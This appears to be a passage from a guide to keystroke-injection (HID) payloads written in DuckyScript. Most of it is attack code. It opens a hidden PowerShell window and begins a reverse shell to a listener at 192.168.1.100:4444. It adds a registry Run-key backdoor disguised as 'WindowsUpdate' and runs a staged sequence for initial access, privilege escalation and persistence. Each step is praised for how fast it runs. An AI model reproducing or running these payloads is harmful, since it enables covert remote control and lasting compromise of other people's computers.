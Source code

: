 **What this does:** Opens a hidden PowerShell window with administrative privileges in under 2 seconds.

#### **2. Command Automation**
Pre-programmed sequences that execute complex operations:

```txt
# Rapid reverse shell establishment
STRING $client = New-Object System.Net.Sockets.TCPClient("192.168.1.100", 4444)
ENTER
DELAY 50
STRING $stream = $client.GetStream()
ENTER
DELAY 50
STRING $reader = New-Object System.IO.StreamReader($stream)
ENTER
DELAY 50
STRING $writer = New-Object System.IO.StreamWriter($stream)
ENTER
DELAY 50
```

**What this does:** Establishes a reverse shell connection in under 3 seconds.

#### **3. Persistence Setup**
Rapid deployment of persistence mechanisms:

```txt
# Quick registry persistence
STRING New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\update.ps1`"" -PropertyType String -Force
ENTER
DELAY 100
```

**What this does:** Creates a persistent backdoor in under 1 second.

### Advanced Techniques

#### **1. Multi-Stage Execution**
Breaking complex operations into rapid, sequential steps:

```txt
# Stage 1: Initial access (5 seconds)
ATTACKMODE HID
DELAY 1000
MOD r
DELAY 100
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500

# Stage 2: Privilege escalation (3 seconds)
STRING Start-Process powershell -Verb RunAs -WindowStyle Hidden
ENTER
DELAY 1000

# Stage 3: Persistence establishment (2 seconds)
STRING New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemService" -Value "cmd.exe /c powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File `"$env:APPDATA\service.ps1`"" -PropertyType String -Force
ENTER
DELAY 100
```

